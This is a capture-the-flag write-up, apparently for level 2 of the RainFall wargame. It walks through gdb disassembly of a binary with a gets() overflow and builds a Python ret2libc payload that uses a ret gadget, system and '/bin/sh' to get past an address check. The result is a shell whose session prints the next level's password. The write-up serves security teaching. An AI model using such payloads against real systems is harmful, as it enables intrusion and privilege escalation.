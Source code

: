 # Level 2

first we check the escutable file we found our binary wait an input and print the string.

we use gdb to disassemble the main function and that what we got:

```c
Dump of assembler code for function main:
 0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

in the main we see they call p function let see what's do :

```c
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

in the line <+25> in function P they call the [gets](https://linux.die.net/man/3/gets) function.

we assume that's a BufferOverFlow vulnerability then we try to give it a long chaine of character, we got a segFault.

```c
(gdb) run
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppaaaabbbbcccczzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp

Program received signal SIGSEGV, Segmentation fault.
0xb7ea912f in ?? () from /lib/i386-linux-gnu/libc.so.6
```

we need to know th size of the buffer to know how many character we need to send to the program.
in p function we look at the line <+19> we see that they use `ebp-0x4c` to store the input.

```c
    0x080484da <+6>:	mov    eax,ds:0x8049860
    0x080484df <+11>:	mov    DWORD PTR [esp],eax
    0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
    0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
    0x080484ea <+22>:	mov    DWORD PTR [esp],eax
    0x080484ed <+25>:	call   0x80483c0 <gets@plt>

```

let's get the address of `ebp-0x4c` and `return Address` in gdb

```
(gdb) x/x $ebp-0x4c
0xbffff6ac:	0x00000001
(gdb) info frame
Stack level 0, frame at 0xbffff700:
eip = 0x80484da in p; saved eip 0x804854a
called by frame at 0xbffff710
Arglist at 0xbffff6f8, args:
Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
Saved registers:
ebp at 0xbffff6f8, eip at 0xbffff6fc
```

the address of `ebp-0x4c` is `0xbffff6ac`
the address of `return Address` is `0xbffff6fc`

0xbffff6fc - 0xbffff6ac = 0x50 = 80

the size of the buffer is 80 bytes.

we need to send 80 bytes to the program to overwrite the return Address.

we can use python to do that.

```c
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) info proc mappings
process 3848
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb)
```

as you see we have look for the address of the function system and the address of the string "/bin/sh" in the memory.

now we can write a python script to do that.

```python
padding = 'A'*80
addressSystem =  "\x60\xb0\xe6\xb7"
binsh= "\x58\xcc\xf8\xb7"
print padding+addressSystem+"0000"+binsh
```

we try to run the script and we got the system address printed.

```c
level2@RainFall:~$ cat script -| ./level2
(0xb7e6b060)

```

we check the instruction in the function p and we see that they use `system` to execute the command.

```c
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
```

we found they check if the address not start with `0xb0000000` and if it's not they jump to the address `0x08048527 <+83>`. else they print the address and exit.

to bypass this we need to pass a address that not start with `0xb0000000` and we can do that by using the address of the return address `0x08048538`

```python
padding = 'A'*80
addressSystem =  "\x60\xb0\xe6\xb7" #address of system
returnAddr = "\x3e\x85\x04\x08" #address of return address
binsh="\x58\xcc\xf8\xb7" #address of /bin/sh
print padding+returnAddr+addressSystem+"0000"+binsh
```

now we can run the script and we got it .

```c
level2@RainFall:~$ cat script -|./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`��0000X��
whoami
level3
ls ../level3
ls: cannot access ../level3: Permission denied
whoami
level3
cd ../level3
ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```
